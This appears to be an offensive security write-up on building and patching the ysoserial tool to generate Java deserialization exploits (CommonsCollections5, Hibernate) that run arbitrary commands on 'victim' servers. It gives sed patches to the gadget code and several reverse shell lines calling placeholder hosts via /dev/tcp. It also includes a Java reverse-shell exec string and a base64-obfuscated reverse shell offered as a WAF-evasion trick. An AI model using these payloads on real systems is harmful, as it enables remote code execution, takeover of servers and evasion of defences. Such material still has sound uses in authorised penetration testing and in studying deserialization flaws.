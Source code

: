 #### 2.1. `ysoserial` setup

Info about `java` version:
```
# java --version
java 14 2020-03-17
Java(TM) SE Runtime Environment (build 14+36-1461)
Java HotSpot(TM) 64-Bit Server VM (build 14+36-1461, mixed mode, sharing)
```

Building `ysoserial` from source:
```
# apt-get install maven -yqq
# git clone https://github.com/frohoff/ysoserial && cd ysoserial

[ REMEMBER TO PATCH NOW]

# mvn clean package -DskipTests -Dhibernate5 # for Hibernate5 support
# mv target/ysoserial-*-SNAPSHOT-all.jar ~/ysoserial.jar && cd ~
```

Quick smoke test - Hibernate 5:
```
# java -Dhibernate5 -jar ysoserial.jar Hibernate1 'ls' > /tmp/hibernate5.serial
# file /tmp/hibernate5.serial && rm /tmp/hibernate5.serial
/tmp/hibernate5.serial: Java serialization data, version 5
```

Quick smoke test - Commons Collections 5:
```
# java -jar ysoserial.jar CommonsCollections5 'ls' > /tmp/collections5.serial
# file /tmp/collections5.serial && rm /tmp/collections5.serial
/tmp/collections3.serial: Java serialization data, version 5
```

#### 2.2. Some words on patching

To support complex commands, `ysoserial` needs to be patched from a case-to-case basis.

From: `https://github.com/summitt/burp-ysoserial`
```
... commands like the following command would fail to execute on the victim server in the original ysoserial ...
... to run complex commands that pipe command into other commands in java the arguments needs to be a string Array ...

/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1

The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like: Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});
```


#### 2.3. `ysoserial` patch 1 - `CommonsCollections5.java`

Since `burp-ysoserial` doesn't offer CommonsCollections5 (CC5) payload, so we need to fix the `ysoserial` manually.

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/CommonsCollections5.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name CommonsCollections5.java`
# grep -n 'final.*execArgs = new .*' $file
60:		final String[] execArgs = new String[] { command };
# grep -n 'new Class.*execArgs.*' $file
74:					new Class[] { String.class }, execArgs),
```

Applying the patch:
```
# sed -i '60s/.*/final String[] execArgs = new String[]{"\/bin\/bash", "-c", command};/' $file
# sed -i '74s/.*/new Class[] { String[].class }, new Object[]{execArgs}),/' $file
```

Note: payloads like `java -jar ysoserial.jar CommonsCollections5 "sleep 5"` will fail in this case because the command must be executed via `Runtime.getRuntime().exec("sleep 10").waitFor();` -  whereas the `waitFor()` is missing in the gadget's `Transformer` object.


#### 2.4. `ysoserial` patch 2 - Hibernate 5 (`waitFor()` gadget)

File: `https://raw.githubusercontent.com/frohoff/ysoserial/master/src/main/java/ysoserial/payloads/util/Gadgets.java`

Find the lines to be modified:
```
# file=`find ~/ysoserial -name Gadgets.java`
# grep -n '\"\\");\";' $file
118:            "\");";
```

Applying the patch:
```
# sed -i '118s/.*/"\\").waitFor();";/' $file
```

Other patch could be applied for reverse shell:

```
String cmd = "java.lang.Runtime.getRuntime().exec(new String []{\"/bin/bash\",\"-c\",\"exec 5<>/dev/tcp/10.0.0.1/8080;cat <&5 | while read line; do \\$line 2>&5 >&5; done\"}).waitFor();";
```

Nice trick for WAF evasion:

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|{bash,-i}`
